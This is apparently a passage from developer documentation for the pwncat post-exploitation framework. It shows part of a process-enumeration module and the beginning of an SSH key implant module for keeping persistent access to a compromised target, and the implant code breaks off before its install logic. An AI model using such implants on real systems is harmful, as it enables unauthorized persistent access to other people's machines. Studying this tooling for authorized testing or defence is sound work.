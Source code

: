 ```python
                ["ps", "-eo", "pid,user,comm", "--no-headers"],
                stdout=subprocess.PIPE,
                stderr=subprocess.DEVNULL,
                text=True
            )
            
            with proc.stdout as stream:
                for line in stream:
                    line = line.strip()
                    if not line:
                        continue
                    
                    parts = line.split(maxsplit=2)
                    if len(parts) >= 3:
                        pid, user, command = parts[0], parts[1], parts[2]
                        yield Process(self.name, pid, user, command)
                        
        except Exception as e:
            session.print(f"[red]Error enumerating processes: {e}[/red]")
```

## Implant Modules {#implant-modules}

Implant modules are used to establish persistent access to a target.

### Example 3: SSH Key Implant Module

```python
#!/usr/bin/env python3

import os
from pathlib import Path

from pwncat.db import Fact
from pwncat.platform.linux import Linux
from pwncat.modules.Implant import ImplantModule


class SSHImplant(Fact):
    """SSH key implant fact"""
    
    def __init__(self, source, user, path):
        super().__init__(source=source, types=["implant.ssh_key"])
        self.user = user
        self.path = path

    def title(self, session):
        return f"[green]SSH Key Implant[/green] for [cyan]{self.user}[/cyan] at {self.path}"

    def description(self, session):
        return f"Installed SSH public key for user {self.user} at {self.path}"


class Module(ImplantModule):
    """Install an SSH key for persistent access"""
    
    def install(self, session, user=None, ssh_key_path=None):
        # If no user specified, use current user
        if not user:
            user = session.current_user().name
        
        # Get user home directory
        try:
```